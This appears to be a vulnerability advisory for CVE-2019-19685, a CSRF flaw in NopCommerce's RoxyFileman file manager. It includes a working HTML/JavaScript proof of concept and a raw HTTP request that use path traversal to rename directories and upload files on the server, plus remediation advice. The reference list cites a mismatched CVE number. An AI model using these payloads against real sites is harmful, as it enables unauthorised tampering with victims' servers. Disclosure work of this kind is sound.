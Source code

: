 ```yaml
---
layout: default
parent: NopCommerce Shopping CMS
nav_order: 1
title: CVE-2019-19685 - Cross-Site-Request-Forgery (CSRF)
---
```


# Cross-Site-Request-Forgery (CSRF)

## Summary

It was observed that the application, although implementing a strong Cross-Site Request Forgery protection, allowed for some requests to be sent without a valid synchronizer token. This allows attackers to cause application users or administrators to carry out functionality on their behalf, such as adding a new administrative user or changing a user's details.

Cross-Site Request Forgery (CSRF) is an attack which masks web application functionality in such a way so as to trick the user into loading a page that contains a spoofed request. The request inherits the identity and privileges
of the victim to perform an undesired function on the victim's behalf, like change the victim's e-mail address, home address, password, or purchase something. CSRF attacks generally target functions that cause a state
change on the server but can also be used to access sensitive data.

Affected are all the functionalities of the file Libraries/Nop.Services/Media/RoxyFileman/RoxyFilemanController.cs. CWE is classifying the issue as CWE-352. This is going to have an impact on confidentiality and integrity.

The weakness was discovered during July 2019 and it is traded as CVE-2019-19685 since 12/09/2019. The exploitability is told to be non-trivial. It is possible to launch the attack remotely. A single authentication is necessary for exploitation. Technical details are known, and a public exploit has been developed by Alessandro Magnosi and released to the public.

The issue was previously mitigated implementing the same-site cookie protection, which is set to “lax”. However, the implementation of RoxyFileman allows to delete, rename and move directories and files using the HTTP GET request method, making this kind of protection useless, as with same-site attribute set to “lax”, cookies are sent in any case if the HTTP Method is GET. Moreover, against any specification, the RoxyFIleman implementation doesn’t check the HTTP request, meaning that it is possible to upload a file using a non-RFC compliant GET (with a request body).

## Proof-of-Concept

A [proof-of-concept](https://github.com/belong2yourself/vulnerabilities/blob/master/docs/NopCommerce/Cross-Site-Request-Forgery/csrf-poc.html) has been released, and can be used to create a file under C:\Users\Public\Document [Replace depending on installation type]. 

**Steps to reproduce:**

1. Copy the code in poc.html file
2. Modify in the PoC the target references
3. Login as admin into NopCommerce web application
4. Open the file with the browser in a new tab
5. Check on the server filesystem if C:\Users\Public\Documents\pwnd.txt has been created


```

<html>
  <!-- CSRF PoC - Rename Directory Common -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var target = “http://192.168.226.128”;
        var xhr = new XMLHttpRequest();
        xhr.open("GET", target + "/nopcommerce\/Admin\/RoxyFileman\/ProcessRequest?a=RENAMEDIR&d=%2fimages%2fuploaded%2f..%2F..%2F..%2F..%2F..%2F..%2F..%2Finetpub%2fwwwroot%2fnopcommerce%2fViews%2fCommon%2f&n=Common2", true);
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3");
        xhr.withCredentials = true;
        var body = "";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```


An additional PoC has been provided in a raw form to explain how it was possible to upload a file using a GET, below.

```
GET /Admin/RoxyFileman/ProcessRequest?a=UPLOAD HTTP/1.1
Host: <SNIPPED>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0
Accept: */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------3125261928760
Content-Length: 556
Connection: close
Cookie: [SNIPPED][To change with a valid admin session]

-----------------------------3125261928760
Content-Disposition: form-data; name="action"

upload
-----------------------------3125261928760
Content-Disposition: form-data; name="method"

ajax
-----------------------------3125261928760
Content-Disposition: form-data; name="d"

/images/uploaded/../../../../../../../../../../Users/Public/Documents/
-----------------------------3125261928760
Content-Disposition: form-data; name="files[]"; filename="pwnd.txt"
Content-Type: image/png

PWND!!!

-----------------------------3125261928760--
```

Using the following PoC, a file named “pwnd.txt” will appear in C:\Users\Public\Document folder.


## Remediation

Upgrading to version 4.3.0 solves the issue.

## References

*	[https://owasp.org/www-community/attacks/csrf](https://owasp.org/www-community/attacks/csrf) 
*	[https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9042](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9042) 



 
